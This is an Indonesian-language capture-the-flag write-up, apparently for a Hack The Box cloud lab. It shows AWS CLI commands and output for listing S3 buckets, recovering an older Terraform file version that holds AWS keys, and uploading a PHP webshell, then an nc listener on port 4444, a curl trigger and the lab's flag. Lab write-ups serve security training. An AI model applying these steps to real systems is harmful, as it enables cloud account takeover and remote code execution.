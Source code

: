 #cloud #easy #s3 #aws #rce #writeup_twang 



# Steps
1. Buat persiapan dengan memasukkan informasi hostname pada `/etc/hosts`
```sh
sudo nano /etc/hosts

# masukkan entry berikut ini
<IP_address> unveiled.htb
``` 


2. Di dalam page source web, terdapat dua informasi penting. Yang pertama adalah username `galen` dan source yang mengarah kepada link  s3 bucket.
```html
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->

<script src="http://s3.unveiled.htb/unveiled-backups/main.js"/>
```


3.  Melihat informasi tersebut, kita bisa mendaftarkan IAM user pada AWS dan mendapatkan `aws_access_id` dan `aws_access_key`. Kemudian masukkan kedua informasi tersebut pada dengan perintah `aws configure --profile test
   

4. Untuk mempercepat proses pengerjaan, gunakan script berikut ini melalui bash terminal.
```shell
export AWS_ENDPOINT_URL=http://s3.unveiled.htb
function aws() {
	export AWS_DEFAULT_OUTPUT=yaml 
	if [ -z "$AWS_ENDPOINT_URL" ]
	then
		command aws "$@"
	else
		command aws "$@" --endpoint-url "$AWS_ENDPOINT_URL"
	fi
}
```

5. Listing terhadap aws s3 bucket dengan menggunakan `s3api`. Terdapat dua bucket pada endpoint url tersebut, yaitu `unveiled-backups` dan `website-assets`.  Pada bucket `unveiled-backups` ini terdapat dua file, yaitu `index.html` dan `main.tf`.  
```sh
$ aws s3api list-buckets --profile test 
Buckets:
- CreationDate: '2023-07-17T10:19:00+00:00'
  Name: unveiled-backups
- CreationDate: '2023-07-17T10:19:01+00:00'
  Name: website-assets
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a


$ aws s3api list-objects-v2 --bucket 'unveiled-backups' --profile test
Contents:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  Key: index.html
  LastModified: '2023-07-17T10:19:04+00:00'
  Size: 4495
  StorageClass: STANDARD
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  Key: main.tf
  LastModified: '2023-07-17T10:19:05+00:00'
  Size: 1107
  StorageClass: STANDARD

```


6. `main.tf` adalah sebuah file Terraform yang kemungkinan berisi `aws_access_id` dan `aws_key` . Namun sayangnya kedua parameter tersebut tidak ditemukan pada `main.tf`. Kemungkinan terdapat versi file lama yang berisikan value sensitif tersebut.
```shell
$ aws s3 sync s3://unveiled-backups/ .
download: s3://unveiled-backups/main.tf to ./main.tf
download: s3://unveiled-backups/index.html to ./index.html
```


7. Pada bucket `unveiled-backups` terdapat ACL dengan permission `FULL_CONTROL` yang diberikan kepada user `webfile`.
```sh
$ aws s3api get-bucket-acl --bucket unveiled-backups --profile test
Grants:
- Grantee:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
    Type: CanonicalUser
  Permission: FULL_CONTROL
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a

```


7. Melihat version pada bucket `unveiled-backups` untuk mencari informasi sensitif pada file `main.tf`. Kita dapatkan VersionId dengan nilai `bf4e51a6-5bf0-4622-a833-b0948bbc2acd`.
```sh
$ aws s3api list-object-versions --bucket unveiled-backups --profile test
Versions:
...
- ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
  IsLatest: false
  Key: main.tf
  LastModified: '2023-07-17T10:19:03+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1167
  StorageClass: STANDARD
  VersionId: bf4e51a6-5bf0-4622-a833-b0948bbc2acd
```


8. Mengunduh file `main.tf` pada versi `bf4e51a6-5bf0-4622-a833-b0948bbc2acd` dengan dama `main.tf.old`. Kemudian membaca file tersebut. Kita akan mendapatkan `aws_access_key` dan `aws_secret_key` yang dapat kita gunakan pada aws cli.
```shell
$ aws s3api get-object --bucket unveiled-backups --key main.tf --version-id bf4e51a6-5bf0-4622-a833-b0948bbc2acd main.tf.old --profile test
AcceptRanges: bytes
ContentLength: 1167
ContentType: binary/octet-stream
ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
LastModified: '2023-07-17T10:19:03+00:00'
Metadata: {}
VersionId: bf4e51a6-5bf0-4622-a833-b0948bbc2acd


$ cat main.tf.old                    
variable "aws_access_key"{
  default = "AKIA6CFMOGFLAHOPQTMA"
}
variable "aws_secret_key"{
  default = "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"
}
...

```


8. Menggunakan nilai `aws_access_key` dan `aws_secret_key` dan membuat satu profile baru bernama `unveilied`. Profile ini kemudian akan digunakan sebagai konfigurasi yang dipakai untuk mengakses bucket `website-assets` 
```shell
$ aws configure --profile unveiled
AWS Access Key ID [None]: AKIA6CFMOGFLAHOPQTMA
AWS Secret Access Key [None]: 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
Default region name [None]: ap-southeast-3
Default output format [None]:


$ aws sts get-caller-identity --profile unveiled
Account: '683633011377'
Arn: arn:aws:iam::683633011377:user/will
UserId: AKIAIOSFODNN7DXV3G29

```


9. Melakukan listing directory pada bucket `website-assets` dengan menggunakan profile `unveiled`.
```
$ aws s3 ls s3://website-assets --profile unveiled
2023-07-17 17:19:02      91790 background.jpg
2023-07-17 17:19:02       4372 index.html

```


10. Profile `unveiled` ini dapat digunakan untuk mengunggah webshell menuju bucket `web-assets` tersebut.
```
$ aws s3 cp shell.php s3://website-assets --profile unveiled
upload: ./shell.php to s3://website-assets/shell.php 

$ nc -lnvp 4444

$ curl http://<ip_address>/shell.php
```


11. Flag ada pada lokasi `$ cat /var/www/flag.txt:` `HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}`



# Referensi
- Writeups: [https://github.com/godylockz/Writeups/blob/main/Cloud-Unveiled.md](https://github.com/godylockz/Writeups/blob/main/Cloud-Unveiled.md)
